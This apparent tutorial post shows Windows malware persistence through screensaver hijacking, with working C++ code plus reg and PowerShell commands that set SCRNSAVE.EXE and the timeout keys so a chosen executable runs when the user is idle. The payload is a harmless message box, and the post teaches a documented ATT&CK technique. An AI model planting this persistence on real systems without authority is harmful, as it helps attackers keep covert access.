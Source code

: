 ## 43. malware development: persistence - part 2. Screensaver hijack. C++ example.

![pers](./images/52/2022-04-27_03-07.png){width="80%"}    

This post is a second part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: Abusing screensavers.    

### screensavers

Screensavers are programs that execute after a configurable time of user inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence. Screensavers are PE-files with a `.scr` extension by default and settings are stored in the following registry keys:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    

![pers](./images/52/2022-04-27_03-23.png){width="80%"}    

set to `1` to enable screensaver.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - 
sets user inactivity timeout before screensaver is executed.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - 
set the app path to run.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* from [previous](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) part `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-04.png){width="80%"}    

And save it to folder `Z:\\2022-04-26-malware-pers-2\`:    

![pers](./images/52/2022-04-27_03-29.png){width="80%"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when user inactive `10` seconds:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
    REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
    REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
    REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry keys for timeout and app path. Registry keys can be added from the `cmd` terminal:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

or `powershell` commands:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-06.png){width="80%"}    

Then, for the purity of experiment, first of all, check registry keys in the victim's machine and delete keys if exists:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

![pers](./images/52/2022-04-27_03-43.png){width="80%"}    

![pers](./images/52/2022-04-27_03-48.png){width="80%"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-14.png){width="80%"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again and wait `10` seconds or just inactive `10` seconds:    

![pers](./images/52/2022-04-27_04-13_1.png){width="80%"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-18.png){width="80%"}    

### conclusion

The problem with this persistence trick is that the session is terminated when the user comes back and the system is not idle. However, red teams can perform their operations (something like coin miner) during the user's absence. If screensavers are disabled by group policy, this method cannot be used for persistence. Also you can block `.scr` files from being executed from non-standard locations.   

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    
